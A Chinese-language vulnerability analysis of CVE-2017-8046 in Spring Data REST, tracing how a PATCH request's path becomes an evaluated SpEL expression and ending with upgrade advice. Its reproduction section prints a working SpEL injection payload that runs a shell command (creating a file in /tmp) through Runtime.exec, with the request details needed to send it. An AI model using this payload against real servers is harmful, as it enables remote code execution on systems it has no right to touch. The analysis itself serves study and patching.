







#  Spring Data Rest服务器PATCH请求远程代码执行漏洞分析


## 1. &emsp;漏洞描述

* 漏洞描述： 近日，Pivotal官方发布通告表示Spring-data-rest服务器在处理PATCH请求时存在一个远程代码执行漏洞（CVE-2017-8046）。攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。官方已经发布了新版本修复了该漏洞。
* 漏洞编号：CVE-2017-8046
* 漏洞作者：Man Yue Mo from Semmle and lgtm.com
* 影响版本：
  * Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
  * Spring Boot version < 2.0.0M4
  * Spring Data release train Kay-RC3
* 漏洞等级：高危

## 2.&emsp;漏洞介绍

​	Spring Data REST是Spring Data的一个子项目。Spring Data是对数据访问的更高抽象。通过它，开发者进一步从数据层解放出来，更专注于业务逻辑。不管是关系型数据还是非关系型数据，利用相应接口，开发者可以使用非常简单的代码构建对数据的访问。

​	回过头看Spring Data REST，它是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。

## 3.&emsp;漏洞分析

1. 根据官方公告，结合GitHub 的[commit](https://github.com/spring-projects/spring-data-rest/commit/8f269e28fe8038a6c60f31a1c36cfda04795ab45)，猜测漏洞出在path参数值的处理上。尝试提交非法的path参数值，查看异常堆栈信息：

```java
at org.springframework.expression.spel.ast.MethodReference$MethodValueRef.setValue(MethodReference.java:355) ~[spring-expression-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.expression.spel.ast.CompoundExpression.setValue(CompoundExpression.java:95) ~[spring-expression-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.expression.spel.standard.SpelExpression.setValue(SpelExpression.java:438) ~[spring-expression-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.data.rest.webmvc.json.patch.PatchOperation.setValueOnTarget(PatchOperation.java:167) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.json.patch.ReplaceOperation.perform(ReplaceOperation.java:41) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.json.patch.Patch.apply(Patch.java:64) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.config.JsonPatchHandler.applyPatch(JsonPatchHandler.java:91) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.config.JsonPatchHandler.apply(JsonPatchHandler.java:83) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.readPatch(PersistentEntityResourceHandlerMethodArgumentResolver.java:206) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.read(PersistentEntityResourceHandlerMethodArgumentResolver.java:184) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.resolveArgument(PersistentEntityResourceHandlerMethodArgumentResolver.java:141) ~[spring-data-rest-webmvc-2.6.6.RELEASE.jar:na]
    at org.springframework.web.method.support.HandlerMethodArgumentResolverComposite.resolveArgument(HandlerMethodArgumentResolverComposite.java:121) ~[spring-web-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.method.support.InvocableHandlerMethod.getMethodArgumentValues(InvocableHandlerMethod.java:158) ~[spring-web-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:128) ~[spring-web-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:97) ~[spring-webmvc-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:827) ~[spring-webmvc-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:738) ~[spring-webmvc-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:85) ~[spring-webmvc-4.3.10.RELEASE.jar:4.3.10.RELEASE]
    at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:967) ~[spring-webmvc-4.3.10.RELEASE.jar:4.3.10.RELEASE]    //省略部分堆栈信息
```

2. 既然是Patch请求方法，我们从org.springframework.data.rest.webmvc.config.JsonPatchHandler.apply(JsonPatchHandler.java:83)入手分析。

```java
//源代码a
public <T> T apply(IncomingRequest request, T target) throws Exception {

		Assert.notNull(request, "Request must not be null!");
		Assert.isTrue(request.isPatchRequest(), "Cannot handle non-PATCH request!");
		Assert.notNull(target, "Target must not be null!");

		if (request.isJsonPatchRequest()) {
			return applyPatch(request.getBody(), target);
		} else {
			return applyMergePatch(request.getBody(), target);
		}
	}
```

源代码中的if判断决定了请求Content-Type须指定application/json-patch+json。

```java
//源代码b
public boolean isJsonPatchRequest() {
		return isPatchRequest() //是否是PATCH请求方法
          && RestMediaTypes.JSON_PATCH_JSON.isCompatibleWith(contentType);//Content-Type是否与application/json-patch+json兼容
	}
```

源代码a中的if判断为true的话，进入applyPatch方法：

```java
//源代码c
@SuppressWarnings("unchecked")
<T> T applyPatch(InputStream source, T target) throws Exception {
  return getPatchOperations(source).apply(target, (Class<T>) target.getClass());
}
```

跟进getPatchOperations方法：

```java
//源代码d
private Patch getPatchOperations(InputStream source) {

		try {
			return new JsonPatchPatchConverter(mapper).convert(mapper.readTree(source));//通过Jackson 生成对应的对象实例
		} catch (Exception o_O) {
			throw new HttpMessageNotReadableException(
					String.format("Could not read PATCH operations! Expected %s!", RestMediaTypes.JSON_PATCH_JSON), o_O);
		}
	}
```

源代码d通过Jackson实例化对象，我们看看相关构造函数:

```java
//源代码e
public Patch(List<PatchOperation> operations) {
		this.operations = operations;
	}
```

```java
//源代码f
public PatchOperation(String op, String path) {
		this(op, path, null);
	}
```

3. 对于PatchOperation对象，成员spelExpression根据path转化而来，这一点对于PoC构造非常重要,pathToExpression完整的调用链比较长，影响PoC的构造关键在于下面两个方法。

```java
//源代码g
private static String pathToSpEL(String path) {
		return pathNodesToSpEL(path.split("\\/"));
	}

private static String pathNodesToSpEL(String[] pathNodes) {
  StringBuilder spelBuilder = new StringBuilder();

  for (int i = 0; i < pathNodes.length; i++) {

    String pathNode = pathNodes[i];

    if (pathNode.length() == 0) {
      continue;
    }

    if (APPEND_CHARACTERS.contains(pathNode)) {

      if (spelBuilder.length() > 0) {
        spelBuilder.append(".");
      }

      spelBuilder.append("$[true]");
      continue;
    }

    try {

      int index = Integer.parseInt(pathNode);
      spelBuilder.append('[').append(index).append(']');

    } catch (NumberFormatException e) {

      if (spelBuilder.length() > 0) {
        spelBuilder.append('.');
      }

      spelBuilder.append(pathNode);
    }
  }

  String spel = spelBuilder.toString();

  if (spel.length() == 0) {
    spel = "#this";
  }

  return spel;
}
```

回到源代码C，继续看apply：

```java
//源代码i
public <T> T apply(T in, Class<T> type) throws PatchException {

		for (PatchOperation operation : operations) {
			operation.perform(in, type);
		}

		return in;
	}
```

在RFC6902的标准中，一次PATCH请求允许多个操作，比如：

```java
[
 { "op": "test", "path": "/a/b/c", "value": "foo" },
 { "op": "remove", "path": "/a/b/c" },
 { "op": "add", "path": "/a/b/c", "value": [ "foo", "bar" ] }
]
```

对于上面的请求数据，将会顺序执行test、remove、add操作（当前操作的"文档"为上一次操作更新后的"文档"）。

因此，在代码片段i中循环每一个"操作"。假设我们提交了一个PATCH请求op为replace，我们接着看PatchOperation子类ReplaceOperation的perform方法：

```java
//源代码j
<T> void perform(Object target, Class<T> type) {
    setValueOnTarget(target, evaluateValueFromTarget(target, type));
}
```

调用父类PatchOperation的evaluateValueFromTarget方法：

```java
//源代码k
protected <T> Object evaluateValueFromTarget(Object targetObject, Class<T> entityType) {    return value instanceof LateObjectEvaluator
            ? ((LateObjectEvaluator) value).evaluate(spelExpression.getValueType(targetObject)) : value;
}
```

回过头看代码源代码j，setValueOnTarget再往后走就是SpEL解析了。

## 4.&emsp;漏洞复现

1. 通过网上公布的靶场源码搭建Spring Data Rest环境：



2. 访问环境url并通过burpsuite进行抓包：



3. 转发数据包，先通过POST方式提交数据：



4. 访问网页，可以看到数据被成功提交进去



5. 构造恶意payload，执行远程命令执行操作：

payload：

```java
[{"op":"test","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))"
}]
```



**注：**

* 数据包转发需要换成PATCH方法
* URL换成刚刚提交的url
* Content-Type需要换成`Content-Type: application/json-patch+json`

6. 查看靶机中命令有没有执行：



可以看到文件被成功写入。

## 5.&emsp;修复意见

完整的补丁信息可以从GitHub看对应[commit](https://github.com/spring-projects/spring-data-rest/commit/8f269e28fe8038a6c60f31a1c36cfda04795ab45)。

主要修改方法在[webmvc/src/main/java/org/springframework/data/rest/webmvc/json/patch/PatchOperation.java](https://github.com/spring-projects/spring-data-rest/commit/8f269e28fe8038a6c60f31a1c36cfda04795ab45#diff-a4a07a94443b1927ad0064611a8f6b97)



修复意见：及时升级

不受影响的版本

- Spring Data REST 2.5.12, 2.6.7, 3.0RC3
- Spring Boot 2.0.0.M4
- Spring Data release train Kay-RC3
